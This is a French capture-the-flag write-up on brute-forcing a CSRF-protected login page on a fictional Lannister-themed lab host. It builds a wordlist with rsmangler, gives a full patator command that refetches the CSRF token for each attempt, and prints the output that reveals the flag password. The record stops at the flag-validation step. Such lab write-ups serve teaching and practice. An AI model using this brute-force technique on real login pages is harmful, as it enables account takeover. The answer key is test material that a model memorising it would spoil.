 ```yaml
---
title: 5 | CWE-307 - Brute Force sur la page de login
next: "/write-ups/wu6"
prev: "/write-ups/wu4"
---
```



# 🏰 Brute Force sur la page de login  - Castral-Roc

## 🎯 Objectif
Jon doit crocheter la serrure pour rentrer au conseil des lannister ! Il doit **brute-forcer la page de login** sur le sous-domaine **lannister.castral-roc.lannisport.south** pour découvrir **le mot de passe** de James Lannister.

**Flag attendu :** <ILoveCersei>

---

## ⚙️ Environnement
- **Cible :** lannister.castral-roc.lannisport.south
- **Outil utilisé :** rsmangler, patator
- **Wordlist :** custom wordlist créée par le pentester

---


## 🚀 Étape 1 : se rendre sur la page high_login et analyser le comportement du formulaire de connexion


Page de login du Conseil des Lannister :  http://lannister.castral-roc.lannisport.south/high_login.php 

## 🔍 Étape 2 :  Inspecter la page 

Inspecter la page pour trouver les champs du formulaire de connexion.
On voit que le formulaire utilise un token CSRF pour se protéger des attaques CSRF.

> 📝 **CSRF** : Cross-Site Request Forgery est une attaque qui force un utilisateur à exécuter des actions non désirées sur un site Web sur lequel il est authentifié.

Il faut donc trouver un moyen de contourner cette protection.

De plus on remarque que le formulaire de connexion contient un champ **username** et un champ **password**, la methode utilisée est **POST**.

```html
<form method="POST">
        <input type="hidden" name="csrf_token" value="zdagte....">
        <label for="username">Nom d'utilisateur :</label><br>
        <input type="text" id="username" name="username" required><br>
        <label for="password">Mot de passe :</label><br>
        <input type="password" id="password" name="password" required><br>
        <input type="submit" value="Connexion">
</form>
```

## 🚀 Étape 3 : Créer une wordlist personnalisée

1. On remarque sur la page plusieurs **indices** :

```bash	
- James
- Lannister
- Cersei
- Love
- I
```

On peut donc créer une **wordlist personnalisée**  avec ces mots.

Les ajouter a un fichier.

```bash	
nano custom_wordlist.txt
```

Coller les mots dans le fichier, sauvegarder et quiter.

```bash	
James
Lannister
Cersei
Love
I
```


2. Créer un fichier sortie_wordlist.txt avec un multitude de variations possible de ces mots : 

```bash	
rsmangler --file custom_wordlist.txt --output sortie_wordlist.txt
```

Il va donc par exemple y avoir des variations de la forme :

```bash
JamesLaNNisterCerseiLoveI
IJamesLannisterCerseiLove
CerseiLoveIJamesLannister
...
```



## 🔍 Étape 4 : Brute-force du formulaire de connexion

Comme le formulaire utilise un token CSRF, on va utiliser l'outil **patator** pour effectuer un bruteforce sur le formulaire de connexion.
En effet, patator permet de contourner la **protection CSRF** en recuperant le token avec chaque requête.
De ce fait, lorsque l'on envoie une requête, le token est récupéré et utilisé pour la requête suivante.

```bash
patator http_fuzz url="http://lannister.castral-roc.lannisport.south/high_login.php" method=POST body="username=james.lannis&password=FILE0&csrf_token=RESPONSE1" accept_cookie=1 0=sortie_wordlist.txt before_urls="http://lannister.castral-roc.lannisport.south/high_login.php" before_egrep='RESPONSE1:csrf_token" value="([a-f0-9]{32})"' resolve="lannister.castral-roc.lannisport.south:10.10.10.1"
```

Décomposons la commande :

- **http_fuzz** : module de patator pour effectuer des attaques par bruteforce sur des formulaires web
- **url** : l'url de la page de login
- **method** : la méthode HTTP utilisée pour envoyer les requêtes
- **body** : les paramètres du formulaire de connexion
- **accept_cookie** : accepter les cookies
- **0** : le fichier contenant les mots de passe à tester
- **before_urls** : l'url de la page de login
- **before_egrep** : expression régulière pour récupérer le token CSRF, le token peut avoir des valeurs de a à f et de 0 à 9 car il s'agit de valeurs hexadécimale
- **resolve** : résoudre le nom de domaine en adresse IP

Cette commande va tester tous les mots de passe de la wordlist sur le formulaire de connexion.

On aura donc cette sortie : 

```bash
18:23:37 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.11.5 at 2025-02-11 18:23 CET
18:23:37 patator    INFO -                                                                              
18:23:37 patator    INFO - code size:clen       time | candidate                          |   num | mesg
18:23:37 patator    INFO - -----------------------------------------------------------------------------

18:23:38 patator    INFO - 200  1050:-1        0.032 | LoveICersei                        |    74 | HTTP/1.1 200 OK
18:23:38 patator    INFO - 200  1054:-1        0.065 | IJamesLannister                    |    75 | HTTP/1.1 200 OK
18:23:38 patator    INFO - 302  429:-1         0.055 | ILoveCersei                        |    86 | HTTP/1.1 302 Found
```

On voit que le mot de passe **ILoveCersei** a été trouvé, car on a reçu une réponse **HTTP 302 Found**.

## 🎯 Étape 5 : Validation du Flag


